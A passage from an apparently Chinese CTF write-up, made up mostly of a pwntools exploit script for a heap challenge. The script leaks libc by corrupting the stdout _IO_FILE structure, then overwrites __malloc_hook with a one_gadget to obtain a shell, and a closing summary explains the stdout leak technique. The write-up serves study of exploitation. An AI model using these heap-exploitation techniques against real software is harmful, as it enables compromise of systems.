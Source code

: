 ```
io.recvuntil(':')
io.sendline(str(size))
io.recvuntil(':')
io.send(content)
def free(index):
choice(3)
io.recvuntil(':')
io.sendline(str(index))
add(0x60,'AAA')
add(0x100,'AAA')
add(0x60,'AAA')
add(0x60,'AAA')
free(2)
edit(0,0x70,'A'*0x60+p64(0)+p64(0x181))
free(1)
add(0x100,'A')
edit(1,0x120,'A'*0x100+p64(0)+p64(0x71)+'\xdd\x25')
gdb.attach(io)
add(0x60,'A')
payload = 'A'*0x33
payload += p64(0xfbad1800)
payload += p64(0)*3
payload += '\x00'
add(0x60,payload)
leak = u64(io.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
success(hex(leak))
libc_base = leak-0x3c5600
success(hex(libc_base))
malloc_hook = libc_base + libc.sym['__malloc_hook']
success(hex(malloc_hook))
#one = [0x45226,0x4527a,0xf03a4,0xf1247]
one1 = [0x45216,0x4526a,0xf02a4,0xf1147]
one_gadget = libc_base + one1[3]
add(0x60,'ccccc')
free(3)
edit(2,0x80,'A'*0x60+p64(0)+p64(0x71)+p64(malloc_hook-0x23))
add(0x60,'A')
add(0x60,'A'*0x13+p64(one_gadget))
choice(1)
io.recvuntil(':')
io.sendline('20')
#gdb.attach(io)
io.interactive()
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DK5OZOOglM4jF87LURMEUyPIVOZfrvF3TcMm8KUR14uObxHofibAKOfTbGiadViavtCFEzLPgJeWzVsqQvJ2qibPEw/640?wx_fmt=png "")  
  
### 0x04 总结  
  
  
### stdout 是程序默认的输出流，其底层是一个 _IO_FILE 结构体。在漏洞利用中，攻击者可以通过修改 stdout 结构体的字段，控制程序的输出行为，从而泄露内存地址或绕过保护机制。本文中，stdout 结构体被用作泄露 libc 地址的关键目标，是漏洞利用中的重要一环。  
  